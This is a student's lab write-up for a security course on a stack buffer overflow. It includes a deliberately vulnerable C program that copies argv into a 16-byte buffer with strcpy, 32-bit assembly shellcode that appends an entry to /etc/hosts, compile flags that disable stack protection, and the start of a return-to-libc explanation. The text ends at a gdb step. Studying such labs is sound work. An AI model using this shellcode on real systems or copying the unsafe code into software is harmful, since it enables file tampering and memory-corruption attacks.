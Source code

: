 # Lab #1,22110017, Tran Minh Duy, INSE330380E_02FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

### 1. Build image Run Docker
```
docker build -t img4lab .
```
```
 docker run -it --privileged -v C:/Users/Lenovo/Seclabs:/home/seed/seclabs img4lab
```
![alt text](image.png)
### 2. Create and Compile c program and asm program
-Create c program and asm program.
![alt text](image-1.png)

-Compile them:
```
nasm -f elf32 -o lab1.o lab1.asm
```
```
ld -m elf_i386 -o lab1 lab1.o
```
```
gcc -o vullab1 vullab1.c -fno-stack-protector -z execstack -m32
```
![alt text](image-2.png)
### 3. Stack Frame:
![alt text](image-4.png)

If we want to exploit 
- Overflow the Buffer.

The buffer is 16 bytes to send more than 16 bytes to overflow it.<br>
- Overwrite EBP (4 bytes).

The next 4 bytes would overwrite the saved EBP.<br>
- Overwrite Return Address (4 bytes).

To overwrite the return address to point to  the address of system() for a return-to-libc attack.<br>
- 4 bytes for argument for system()
### 4. Use gdb
